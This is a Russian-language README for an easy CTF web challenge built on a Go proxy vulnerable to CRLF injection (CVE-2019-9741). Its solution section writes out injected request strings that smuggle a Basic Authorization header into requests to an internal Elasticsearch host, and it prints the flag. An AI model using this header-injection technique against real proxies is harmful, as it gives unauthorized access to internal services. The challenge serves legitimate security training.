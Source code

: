 # Web | easy | Gap

# Информация
Псс, здаров! 

Начал изучать go, решил запилить прокси. Если доступ ограничат, то можно ходить через него. Правда он еще не все умеет...будем считать это alpha версией

## Деплой
1. Поменять флаг на нужный
2. ПРи необходимости изменить порт таска (сервис прокси)
```bash
   cd deploy
   docker-compose up
```

## Выдать участникам
IP:PORT
Файл public/docker-compose.yml

## Описание
Таск основан на уязвимости CRLF в старых версиях go (CVE-2019-9741) (<= 1.11.5). Задача - выполнить запрос к внутренним ресурсам, установив заголовок Authorization

## Решение
1. Заходим на страницу и вводим в поле строки
2. ```
   db:9200?pretty=true HTTP/1.1\nAuthorization: Basic Y3RmY3VwOmN0ZmN1cA
   ```
   где (Y3RmY3VwOmN0ZmN1cA = base64(login:pass) = base64(ctfcup:ctfcup))

   таким образом мы понимаем, что там elasticsearch (если по порту это не ясно)
3. db:9200/_aliases?pretty=true HTTP/1.1\nAuthorization: Basic Y3RmY3VwOmN0ZmN1cA
4. db:9200/smth_interesting/_search?pretty=true&q=*:* HTTP/1.1\nAuthorization: Basic Y3RmY3VwOmN0ZmN1cA
5. Сдаем флаг

[exploit](solution/exploit.py)

## Альтернативное решение
Вместо CRLF, можно было сделать редирект со своего домена до ctfcup:ctfcup@db:9200.



# Флаг
CUP{b061ac18135f641c21f8f429efe4d1a47d7acc37}

